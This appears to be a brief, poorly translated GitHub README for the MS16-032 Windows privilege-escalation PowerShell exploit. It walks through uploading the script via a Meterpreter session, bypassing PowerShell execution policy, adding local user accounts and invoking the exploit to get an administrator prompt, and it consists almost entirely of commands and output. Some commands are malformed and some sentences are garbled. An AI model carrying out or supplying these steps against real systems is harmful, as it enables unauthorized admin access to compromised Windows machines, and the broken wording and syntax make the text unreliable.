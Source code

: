 # MS16-032.ps1
This script
Increases the morale of session 
I will explain this gap soon
orders MS-16-032 Manually
 upload /root/Desktop/MS-16-032.ps1 On folder Temp 

meterpreter> shell 

C/: > cd Windows
	C/:windows > cd Temp
	C/:windows/Temp > powershell -exec bypass 
	PS C:\Windows\Temp> net user
	PS C:\Windows\Temp> net user marco 
	PS C:\Windows\Temp> Import-Module ./MS16-032.ps1
	PS C:\Windows\Temp> net user add marco12 /123
	PS C:\Windows\Temp> net user add marcous12
	PS C:\Windows\Temp> Invoke-MS16-032
	 __ __ ___ ___   ___     ___ ___ ___
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|

               [by b33f -> @FuzzySec]
               
               
		Cmd  Administrator  
             